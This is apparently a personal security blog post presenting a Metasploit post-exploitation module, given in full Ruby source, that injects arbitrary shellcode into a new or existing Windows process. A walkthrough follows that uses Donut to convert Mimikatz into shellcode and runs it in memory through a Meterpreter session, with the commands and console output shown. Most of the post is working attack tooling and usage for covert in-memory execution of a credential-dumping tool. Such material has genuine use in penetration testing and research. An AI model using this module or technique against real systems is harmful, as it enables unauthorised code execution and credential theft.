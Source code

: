 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## Meterpreter + Donut = Reflectively and Interactively Executing Arbitrary Executables via Shellcode Injection

I played a bit with the awesome [Donut](https://github.com/TheWover/donut) project, ending up writing a module for executing arbitrary shellcode within Meterpreter aka executing Mimikatz in-memory, reflectively and interactively! 🐱‍👤

## Motivation

[Donut](https://github.com/TheWover/donut) enables us to execute arbitrary .NET assembly, EXE, DLL, VBS, JS or XSL in-memory via Position Indipendent Code generation. Since I wrote in the past [the module for the Juicy variant of *Potato exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_075_reflection_juicy.rb), I knew that Metasploit offers some nice APIs to inject and run arbitrary shellcode, so I decided to write a module for arbitrary shellcode execution. I will demo it by popping an interactive, memory-only instance of Mimikatz!

## Source Code

This is the source code of the module. A [Pull Request](https://github.com/rapid7/metasploit-framework/pull/12391) was already opened to add it to the main repository.

Here it is a copy of the source code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/common'
require 'msf/core/post/windows/reflective_dll_injection'

class MetasploitModule < Msf::Post
  include Msf::Post::Common
  include Msf::Post::Windows::ReflectiveDLLInjection

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Manage Memory Shellcode Injection Module',
      'Description'   => %q{
        This module will inject into the memory of a process a specified shellcode.
      },
      'License'       => MSF_LICENSE,
      'Author'        => [ 'phra <https://iwantmore.pizza>' ],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('SHELLCODE', [true, 'Path to the shellcode to execute']),
        OptInt.new('PID', [false, 'Process Identifier to inject of process to inject the shellcode. (0 = new process)', 0]),
        OptBool.new('CHANNELIZED', [true, 'Retrieve output of the process', true]),
        OptBool.new('INTERACTIVE', [true, 'Interact with the process', true]),
        OptBool.new('HIDDEN', [true, 'Spawn an hidden process', true]),
        OptEnum.new('BITS', [true, 'Set architecture bits', '64', ['32', '64']])
      ])
  end

  # Run Method for when run command is issued
  def run

    # syinfo is only on meterpreter sessions
    print_status("Running module against #{sysinfo['Computer']}") if not sysinfo.nil?

    # Set variables
    shellcode = IO.read(datastore['SHELLCODE'])
    pid = datastore['PID']
    bits = datastore['BITS']
    p = nil
    if bits == '64'
      bits = ARCH_X64
    else
      bits = ARCH_X86
    end

    if pid == 0 or not has_pid?(pid)
      p = create_temp_proc(bits)
      print_status("Spawned process #{p.pid}")
    else
      print_status("Opening process #{p.pid}")
      p = client.sys.process.open(pid.to_i, PROCESS_ALL_ACCESS)
    end

    if bits == ARCH_X64 and client.arch == ARCH_X86
      print_error("You are trying to inject to a x64 process from a x86 version of Meterpreter.")
      print_error("Migrate to an x64 process and try again.")
      return false
    elsif arch_check(bits, p.pid)
      inject(shellcode, p)
    end
  end

  # Checks the Architeture of a Payload and PID are compatible
  # Returns true if they are false if they are not
  def arch_check(bits, pid)
    # get the pid arch
    client.sys.process.processes.each do |p|
      # Check Payload Arch
      if pid == p["pid"]
        print_status("Process found checking Architecture")
        if bits == p['arch']
          print_good("Process is the same architecture as the payload")
          return true
        else
          print_error("The PID #{ p['arch']} and Payload #{bits} architectures are different.")
          return false
        end
      end
    end
  end

  # Creates a temp notepad.exe to inject payload in to given the payload
  # Returns process PID
  def create_temp_proc(bits)
    windir = client.sys.config.getenv('windir')
    # Select path of executable to run depending the architecture
    if bits == ARCH_X86 and client.arch == ARCH_X86
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X64
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X86
      cmd = "#{windir}\\Sysnative\\notepad.exe"
    elsif bits == ARCH_X86 and client.arch == ARCH_X64
      cmd = "#{windir}\\SysWOW64\\notepad.exe"
    end

    proc = client.sys.process.execute(cmd, nil, {
      'Hidden' => datastore['HIDDEN'],
      'Channelized' => datastore['CHANNELIZED'],
      'Interactive' => datastore['INTERACTIVE']
    })

    return proc
  end

  def inject(shellcode, p)
    print_status("Injecting shellcode into process ID #{p.pid}")
    begin
      print_status("Allocating memory in process #{p.pid}")
      mem = inject_into_process(p, shellcode)
      print_status("Allocated memory at address #{"0x%.8x" % mem}, for #{shellcode.length} byte shellcode")
      p.thread.create(mem, 0)
      print_good("Successfully injected payload into process: #{p.pid}")

      if datastore['INTERACTIVE'] && datastore['CHANNELIZED'] && datastore['PID'] == 0
        print_status("Interacting")
        client.console.interact_with_channel(p.channel)
      elsif datastore['CHANNELIZED']
        print_status("Retrieving output")
        data = p.channel.read
        print_line(data) if data
      end
    rescue ::Exception => e
      print_error("Failed to inject Payload to #{p.pid}!")
      print_error(e.to_s)
    end
  end
end
```

## Demo

We want to reflectively and interactively execute Mimikatz on the target system. Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/mimikatz.exe -a 2 -o /tmp/payload.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/mimikatz.exe"
  [ File type     : EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/payload.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/payload.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # exit
Bye!
[*] Post module execution completed
```

![demo](../assets/images/shellcode_inject.jpg "Demo")

It works, awesome! 🚀

[back](../)
